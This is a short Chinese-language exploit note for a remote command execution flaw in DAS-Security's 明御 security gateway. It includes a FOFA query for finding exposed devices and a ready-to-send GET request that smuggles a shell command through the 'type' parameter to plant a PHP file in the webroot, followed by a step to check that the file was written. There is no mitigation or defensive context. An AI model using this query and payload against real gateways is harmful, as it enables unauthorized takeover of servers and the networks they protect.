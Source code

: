 ## 安恒明御安全网关远程命令执行漏洞

明御安全网关秉持安全可视、简单 有效的只理念，以资产为视角，构建全流程防御的下一代安全防护体系，并融合传统防火墙、入侵检测、入侵防御系统、防病毒网关、上网行为管控、VPN网关、威胁情报等安全模块于一体的智慧化安全网关。明御安全网关aaa_portal_auth_config_reset接口处存在RCE漏洞，攻击者通过漏洞可以获取服务器权限。

## fofa
```
title="明御安全网关"
```

## poc
```
GET /webui/?g=aaa_portal_auth_config_reset&type=%0aecho%20%27%3C%3Fphp%20echo%20%22assdwdmpidmsbzoabahpjhnokiduw%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2Ftxzfsrur.php%0a 

GET /webui/?g=aaa_portal_auth_config_reset&type=echo '<?php echo "assdwdmpidmsbzoabahpjhnokiduw"; phpinfo(); ?>' >> /usr/local/webui/txzfsrur.php

```

访问 `url/txzfsrur.php`
![image](../../images/a21845c0-ab48-46ea-b71b-9a168697ff7c.png)
